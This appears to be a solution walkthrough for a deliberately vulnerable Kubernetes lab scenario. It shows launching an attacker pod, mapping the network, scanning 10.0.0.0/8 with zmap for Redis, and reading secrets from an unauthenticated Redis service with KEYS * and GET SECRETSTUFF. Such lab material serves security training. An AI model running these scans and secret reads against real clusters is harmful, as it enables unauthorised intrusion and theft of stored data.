 ## 🎉 Solution & Walkthrough

### 🎲 Method 1

* Let's run the `hacker-container` in the default namespace by using the following command to get started

```bash
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

:::tip

If you don't see the terminal TTY, just press Enter key on your keyboard.

:::

* First, we need to understand the cluster IP range information so that we can use the port scanners to scan the entire cluster range as we don't know which IP address these what services are running

* Some of the simple commands to understand and get more information about the network are as below

```bash
ip route
```

```bash
ifconfig
```

```bash
printenv
```

![Scenario 11 recon](./sc-11-2.png)

* Based on the analysis/understanding of the system. We can run the internal scan for the entire cluster range using `zamp` on port 6379 (the default port of Redis - assuming the cache service is Redis, but there is no limit for the testing here, in real-world we see a lot of internal services like ElasticSeach, Mongo, MySQL, etc.)

```bash
zmap -p 6379 10.0.0.0/8 -o results.csv
```

:::note

To run `zmap` on 10.0.0.0/8 you may need adjust the blacklist (/etc/zmap/blacklist.conf) configuration

:::


![Scenario 11 zmap](./sc-11-3.png)

* Let's look at the results returned from the scan so that we can see if we can access them from the current pod and current namespace

![Scenario 11 output ips](./sc-11-4.png)

:::tip

There is also another way to access the services/pods in the Kubernetes. For example using the [DNS](https://kubernetes.io/docs/concepts/services-networking/service/#dns) `cache-store-service.secure-middleware` (servicename.namespace).

:::

* As we have identified the IP address of the service, now we can use the default `redis` using client `reds-cli` to talk to the service and explore

```bash
redis-cli -h 10.12.0.2
```

* To get all the available keys

```bash
KEYS *
```

* To get the specific key information using `GET`

```bash
GET SECRETSTUFF
```

:::tip

There are many other services and resources exposed within the cluster like ElasticSearch, Mongo, etc. So if your recon skill is good then you got a gold mine here.

:::
